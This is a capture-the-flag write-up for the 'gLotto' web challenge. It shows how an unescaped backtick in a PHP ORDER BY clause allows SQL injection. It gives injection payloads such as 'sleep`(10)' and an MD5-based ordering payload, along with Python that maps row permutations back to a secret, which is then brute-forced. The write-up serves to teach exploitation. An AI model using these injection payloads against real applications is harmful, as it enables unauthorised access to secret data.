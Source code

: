 ```yaml
---
name: gLotto
category: web
points: 288
solves: 22
---
```


{% ignore %}
[Go to rendered GitBook version](https://sasdf.cf/ctf/)
{% endignore %}

> Are you lucky?


## Time
1.5 hour  


# Behavior
There are four tables on the webpage, and they have 8, 9, 7, 4 entries respectively.

![page]({_files/glotto.png})

Their contents are fixed,
but we can control their order:

```php
$order = isset($_GET["order{$i}"]) ? $_GET["order{$i}"] : '';
$db->query("SELECT * FROM {$tables[$i]} " . ($order != '' ? "ORDER BY `".$db->escape_string($order)."`" : ""));
```

Our goal is to recover a random string with format `[0-9A-Z]{12}`,
and it is stored in a variable `@lotto`:
```php
$db->query("SET @lotto = '$winner'");
```

The random string will be reset before each query, or after each guess.
That is, we have to use exactly one query to reveal the secret.


# Solution
## TL;DR
1. Concatenate part of the secret to winner, and order by its MD5 hash.
2. Pre-compute a mapping from permutation to secret offline.
3. Use SQL injection to order the result by our comparing function
4. Map the permutation back to a possible secret
5. Keep trying until the flag pops up.


## Control the order
This part is done by my teammates.

The code use `$db->escape_string` to sanitize our input.
It seems to be `mysqli::real_escape_string` and it won't escape the backtick.

We can verify it using:

```
date`and sleep(10)--
```

Furthermore, we can put a function name inside the backtick and call it too:

```
sleep`(10)
```

Now, to control the order, we can use:

```
length`(winner),md5(winner)
```

Because the length of winner are all the same, the result is ordered by its MD5 hash.


## Leak by permutation
First, lets see how many information we can get from the permutations.
The number of possible secret is $$36^{12}$$,
and the possible outcome is $$8! \times 9! \times 7! \times 4!$$.

$$
36^{12} / (8! \times 9! \times 7! \times 4!) = 2677
$$

It's not enough, we still need to guess some of them.
To minimize the number of guesses, we have to leak as much as possible.

Let see how many chars can be leaked by each table:

$$
\begin{aligned}
\log_{36} (8!) &= 2.96\\
\log_{36} (9!) &= 3.57\\
\log_{36} (7!) &= 2.38\\
\log_{36} (4!) &= 0.88\\
\end{aligned}
$$

After ceiling, we'll use 11 chars in the secret.

To convert the permutation back to the secret,
we need to find a mapping between them.
However, the order is sent as GET parameters, and it has a maximum length about 15k.
We can't use a function that is too complicated.

Here, I simply concatenate a substring of secret to the data and calculate its MD5 for ordering.
MD5 is a cryptographic hash function (more correctly, used to be).
The result would be almost random.

The expected number of unique permutations can be modeled as sampling with replacement:

$$
U(n, k) = n \times \left (1 - \left (1 - \frac{1}{n} \right )^k \right )
$$

where $$n$$ is the number of permutation, and $$k$$ is the number of possible secret.

So here's the expected ratio of unique permutations we can found:

$$
\begin{aligned}
U(8!, 36^{3}) / 8! &= 0.69\\
U(9!, 36^{4}) / 9! &= 0.99\\
U(7!, 36^{3}) / 7! &= 1.00\\
U(4!, 36^{1}) / 4! &= 0.78\\
\end{aligned}
$$

The ratio of $$8!$$ doesn't looks good.
Recall that we only use 11 chars in the 12 chars secret.
Lets give the last char to that table:

$$
\begin{aligned}
U(8!, 36^{4}) / 8! &= 1.00\\
U(9!, 36^{4}) / 9! &= 0.99\\
U(7!, 36^{3}) / 7! &= 1.00\\
U(4!, 36^{1}) / 4! &= 0.78\\
\end{aligned}
$$

It looks great now.


## Mapping from permutation to secret

To build a mapping, we can iterate through the possible substring and pre-compute a lookup table in advance.

First, define our argsort comparing function:

```python
def cmpfunc(table, key):
    def cmp(i):
        s = table[i] + key
        s = hashlib.md5(s.encode()).hexdigest()
        return s
    return cmp
```

Then we build a mapping from the argsort results to secrets.
The results will have collision,
just take the last one since we can only guess one time.

```python
size = [4, 4, 3, 1]

charset = '0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ'

tables = [
    ['D5VBHEDB9YGF', ... , '00HE2T21U15H'],
    ['7AET1KPGKUG4', ... , 'L4CY1JMRBEAW'],
    ['OWGVFW0XPLHE', ... , 'OMZRJWA7WWBC'],
    ['WXRJP8D4KKJQ', ... , 'YELDF36F4TW7']
]

permutations = [{}, {}, {}, {}]
for permu, table, sz in zip(permutations, tables, size):
    for key in itertools.product(charset, repeat=sz):
        key = ''.join(key)
        res = sorted(range(len(table)), key=cmpfunc(table, key))
        res = tuple(res)
        permu[res] = key
    print('Found: ', len(permu), ', Expected: ', math.factorial(len(table)))
```

The output looks great:

```
Found: 40320, Expected: 40320
Found: 359317, Expected: 362880
Found: 5040, Expected: 5040
Found: 20, Expected: 24
```

Here's the same function in SQL for ordering:

```
length`(winner),md5(concat(winner,substr(@lotto,$START,$SIZE))),`winner
```

Also, there's a small sleep on server side if your guess is wrong:

```php
if ($_POST['code'] === $win) {
    die("You won! $flag");
} else {
    sleep(5);
    die("You didn't win :(<br>The winning ticket was $win");
}
```

But you don't need to wait for it. Set a timeout to run faster.
I set a random timeout between 1.7 to 2.3 seconds to interleave the requests.

Now, Keep trying to guess the secret from the permutation until the flag pop up.
You can find my final script [here]([_files/code.py]).

I run the script with 16 threads and the flag pops up after 10 minutes.
